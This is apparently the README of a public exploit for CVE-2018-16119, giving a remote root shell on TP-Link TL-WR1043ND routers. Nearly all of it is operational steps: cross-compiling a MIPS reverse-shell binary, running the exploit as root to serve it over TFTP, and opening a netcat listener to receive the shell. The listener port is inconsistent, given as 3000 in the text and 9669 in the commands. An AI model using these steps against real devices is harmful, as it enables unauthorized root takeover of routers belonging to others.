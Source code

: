 # CVE-2018-16119 Authenticated Remote Code Execution TP-Link WR1043ND
# http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-16119

Exploit to get Remote Root Shell in TP-Link TP-Link TL-WR1043ND Devices

1) Do not forget to modify and compile reverse_shell_mipsbe.c with the name of shh
	. cp reverse_shell_mipsbe.c /tmp/
	. docker run -v /tmp/:/tmp/ -it asmimproved/qemu-mips /bin/bash
	Inside Docker:
		. cd /tmp ; mips-linux-gnu-gcc -static reverse_shell_mipsbe.c -o shh
	Outside Docker:
		. cp /tmp/shh .

2) The exploit need Authentication. I know, it is not so good
3) Run the exploit as root. 
   This is needed by the exploit to start a tftp server in port 69
4) Start a listener in port 3000 in order to receive the Shell:
	Linux:
		nc -l -p 9669 -vv
	OS X:
		nc -l 9669 -vv

5) Do not wait a verbose message on NetCat, just start sending commands!

Thanks for your time!

You can contact me in Twitter as @SecSignal and in Linkeding as Alejandro Parodi
